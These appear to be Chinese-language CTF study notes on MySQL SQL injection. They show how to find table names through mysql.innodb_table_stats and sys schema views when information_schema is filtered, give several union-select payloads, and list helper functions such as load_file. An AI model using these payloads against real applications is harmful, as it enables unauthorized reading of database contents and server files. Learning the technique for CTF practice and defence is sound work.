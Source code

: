 * 查询位置1`mysql.innodb`

    持久化统计信息保存在表`mysql.innodb_table_stats`和`mysql.innodb_index_stats`

    ![网页截图](./CTF/indb.jpg)

    payload:`username=,username=(select group_concat(table_name) from mysql.innodb_table_stats where database_name=database())-- - &password=\`

    `username=,username=(select b from (select 1,2 as b,3 union select * from flag23a1 limit 1,1)a)-- - &password=\`

    `username=,username=(select `2` from(select 1,2,3 union select * from flag23a1 limit 1,1)a)-- - &password=\`


* 查询位置2`sys schema`

    其中

    * `sys.schema_auto_increment_columns`
        
        可以实现对表自增ID的监控，也可以发现我们可以通过该视图获取数据库的表名信息

        payload:`-1' union all select 1,2,group_concat(table_name) from sys.schema_auto_increment_columns where table_schema=database()--+`

    * `sys.schema_table_statistics_with_buffer`

        上一个试图总并没有出现的表名在这里出现

        payload:`?id=-1' union all select 1,2,group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()--+`

    * `processlist`

        该表可以读取正在执行的`sql`语句，从而得到表名和列名

## 常用函数

* `locate(substr,string)`
>ctfshow 194

    返回字符串string第一次出现子字符串的位置

* `chr()`

    将字符转为16进制

* `replace()`

    替换内容，可以用来绕过对结果显示的过滤

* `load_file()`
//ctfshow 189
>https://www.cnblogs.com/blacksunny/p/8060028.html
    知道系统绝对路径且具有读取权限


## 绕过过滤
